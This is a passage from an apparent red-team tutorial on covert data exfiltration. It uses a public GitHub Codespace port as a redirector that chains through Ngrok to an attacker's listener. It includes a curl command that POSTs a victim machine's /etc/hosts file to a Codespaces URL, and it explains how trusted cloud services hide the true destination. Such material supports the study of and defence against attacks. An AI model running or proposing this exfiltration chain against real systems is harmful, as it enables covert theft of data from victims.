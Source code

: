     We will find new ports opening up and we need to make sure we have set the port visibility to public

    ![](../images/exfil-codespaces/exfil3.png)

Once the setup is complete, we can begin exfiltrating data. We'll retrieve the publicly accessible URL generated by the Codespace and use curl from the victim machine to send data payloads directly to this URL.

!!! danger "Exfiltrating from the Victims Machine"
    ```
    curl -X POST -d "$(cat /etc/hosts)" https://potential-waffle-95vqxxpgjwrfpvrx-3000.app.github.dev/
    ```
    ![](../images/exfil-codespaces/exfil4.png)

The redirector running inside the Codespace will forward the incoming data to the attacker’s Ngrok tunnel, which in turn relays it to the HTTP listener on the attacker’s machine. This multi-stage forwarding chain enables seamless and covert exfiltration by leveraging trusted infrastructure and cloud-based services to mask the true destination of the data.

!!! success "Data successfully exfiltrated to Attackers Machine"
    ![](../images/exfil-codespaces/exfil5.png)
